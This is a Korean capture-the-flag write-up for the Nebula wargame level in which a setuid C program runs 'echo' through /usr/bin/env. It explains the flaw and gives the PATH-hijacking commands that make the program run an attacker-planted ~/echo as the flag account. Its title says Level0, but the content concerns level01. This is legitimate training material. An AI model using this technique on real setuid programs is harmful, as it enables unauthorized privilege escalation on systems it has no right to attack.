 # Exploit-exercise Nebula Level0
```
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.
```

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

취약점이 있는 프로그램에서 취약점을 찾을 수 있냐고 물어보면서 c 언어 소스코드를 준다.  
/usr/bin/env 를 통해 환경변수에서 echo 라는 프로그램 명을 찾아서 and now what? 이라는 인자를 주며 실행한다.

그렇다면 환경변수중 프로그램 실행 경로를 찾는 PATH 에 ~/ (홈 디렉토리)를 추가하고 ~/echo 를 만든 다음, 내용에 getflag 를 넣으면 될 것이다.

```
export PATH=~:$PATH
echo "getflag" > ~/echo
chmod a+x ~/echo
/home/flag01/flag01
```

export 명령어를 통해 PATH 에 ~ (홈 디렉토리) 를 추가하고,  
echo "getflag" > ~/echo 를 통해 echo 파일에 getflag 를 입력한다.  
chmod a+x ~/echo 를 통해 echo 파일을 실행할 수 있도록 한 다음에  
/home/flag01/flag01 를 입력하면

```
You have successfully executed getflag on a target account
```

라고 뜨면서 풀리게 된다.